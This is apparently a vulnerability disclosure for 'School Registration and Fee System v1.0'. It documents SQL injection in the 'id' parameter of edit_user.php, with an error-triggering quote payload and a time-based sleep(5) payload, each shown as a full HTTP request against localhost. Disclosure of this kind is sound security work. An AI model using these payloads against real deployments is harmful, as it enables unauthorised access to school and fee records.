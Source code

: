 # School Registration and Fee System v1.0 has SQL injection

BUG_Author:Forsan

Vulnerability File: /bilal final/edit_user.php

GET parameter 'id' exists SQL injection vulnerability

Payload1: http://localhost/bilal%20final/edit_user.php?id=3%27

```
GET /bilal%20final/edit_user.php?id=3%27 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=1n5lla2368pm1f9736l2bfp58a
Connection: close
```

An error occurred in the sql statement

![image](https://github.com/forsean/picture/blob/main/error.png)

Payload2: http://localhost/bilal%20final/edit_user.php?id=3%27%20and%20(select%204%20from%20(select(sleep(5)))a)--%20b

```
GET /bilal%20final/edit_user.php?id=3%27%20and%20(select%204%20from%20(select(sleep(5)))a)--%20b HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=1n5lla2368pm1f9736l2bfp58a
Connection: close
```

The server's response time is 5 seconds

![image](https://github.com/forsean/picture/blob/main/five.png)
